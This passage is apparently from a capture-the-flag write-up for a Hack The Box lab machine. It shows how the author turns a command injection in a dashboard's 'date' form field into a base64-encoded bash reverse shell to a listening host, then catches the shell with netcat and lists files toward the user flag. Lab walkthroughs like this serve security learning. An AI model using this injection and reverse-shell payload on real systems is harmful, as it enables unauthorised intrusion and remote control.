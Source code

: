 ```http
</html>
```

I had Remote Code Execution. With this, it was simple to get a shell. I created a payload to add to the command.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.121/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIxLzQ0NDQgMD4mMSAK
```

And sent it to the server.

```http
POST /dashboard HTTP/1.1
Host: target.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/dashboard
Cookie: is_admin=REDACTED
Upgrade-Insecure-Requests: 1

date=2023-09-16;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIxLzQ0NDQgMD4mMSAK|base64 -d|bash
```

This gave me a shell as a user, and the first flag.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.121] from (UNKNOWN) [10.129.243.69] 51712
bash: cannot set terminal process group (1163): Inappropriate ioctl for device
bash: no job control in this shell

dvir@headless:~/app$ whoami
whoami
dvir

dvir@headless:~/app$ pwd
pwd
/home/dvir/app

dvir@headless:~/app$ ls
ls
app.py
dashboard.html
hackattempt.html
hacking_reports
index.html
inspect_reports.py
report.sh
support.html

dvir@headless:~/app$ ls ../
cls ../
app
geckodriver.log
user.txt

dvir@headless:~/app$cat ../user.txt
cat ../user.txt
```